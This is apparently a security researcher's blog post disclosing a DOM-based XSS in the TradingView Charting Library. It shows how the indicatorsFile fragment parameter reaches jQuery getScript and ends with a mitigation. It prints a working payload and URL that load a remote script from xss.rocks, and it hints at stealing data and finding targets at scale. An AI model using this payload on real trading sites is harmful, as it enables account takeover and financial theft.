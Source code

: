```yaml
---
layout: post
title: "TradingView Charting Library XSS Vulnerablity"
excerpt: "TradingView Charting Library XSS Vulnerablity, high impact"
categories: [Vulnerablity]
comments: true
tag: ['cybersecurity', 'pentesting', 'infosec', 'Vulnerablity', 'xss', 'TradingView', 'web app security']
image:
  feature: tradingview-xss/xss-cover.png
  show: false
---
```


## 0x00 Background
TradingView has popular charting libraries which are used in many online trading platforms for stocks or cryptocurrencies. This vulnerability is a fairly new XSS vulnerability. This vulnerability could bypass Cloudflare or other defense mechanism and cause financial losses due to account request forgery or malicious manipulation. We are going to talk about the vuln and the mitigation.

## 0x01 Vulnerability and Attack
Since TradingView's library is widely-used, we can easily find a test target amongst stock exchange or cryptocurrency exchange platforms. Now let's try to trigger the alert dialog.

After a little bit trying and looking at the code, we have the payload.

Payload
```
#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

Constructed URL
```
https://www.xxxxx.com/static/charting_library/static/tv-chart.630b704a2b9d0eaf1593.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

<br>

![alert][1]{:class="post-image center"}


Minimum required set of parameters: [**disabledFeatures**, **enabledFeatures**, **indicatorsFile**]

After all, it turned out to be easy to understand the vulnerability. Let's look at library.xxxx.js under ```charting_library/static/bundles/```

```javascript
D ? $.getScript(urlParams.indicatorsFile).done(function() {...})
```

![indicators-File-code][2]{:class="post-image center"}


Looks familiar? I believe that you probably have seen jQuery's ```$.getScript$``` many times either when programming or digging bugs. So the core code for this function is essentially...

![jquery-getscript][3]{:class="post-image center"}

According to the source code, we can dynamically create a script tag and load a remote js file. 

Then, why are ```disabledFeatures``` and ```enabledFeatures``` also needed for the payload? We can tell from the code... that there will be an exception thrown if one of these parameters is not provided.

![two-params][4]{:class="post-image center"}

Therefore, the final payload was the one mentioned before.


## 0x03 Vuln Impact 
As we can see, this XSS vuln is a DOM-based XSS, so it means that it can also bypass browsers' XSS protection. The advantage of DOM-based XSS is that it modifies the DOM “environment” in the victim’s browser used by the original client-side script, which means it won't even go through the service's server end for logging purpose or server-side protection. 

Furthermore, the domain that this XSS is triggered is not separated from the core domain where the sensitive data is contained. So, the exploit is conveniently simple to be extraordinarily malicious lol. For example, think of using $ directly could steal some sensitive data or something advanced there.

If someone is experienced in attacking, then he/she knows how to find targets at scale.


## 0x04 Mitigation
In the file we have seen, ```/charting_library/static/bundles/library.19c99ed5d0307c67f071.js```, hardcode getScript so that it takes no files.

```getScript(urlParams.indicatorsFile)``` --> ```getScript("")```



[1]: {{ "/assets/upload/images/tradingview-xss/alert.png" | absolute_url }}
[2]: {{ "/assets/upload/images/tradingview-xss/indicatorsFile-code.png" | absolute_url }}
[3]: {{ "/assets/upload/images/tradingview-xss/getscript.png" | absolute_url }}
[4]: {{ "/assets/upload/images/tradingview-xss/two-params.png" | absolute_url }}
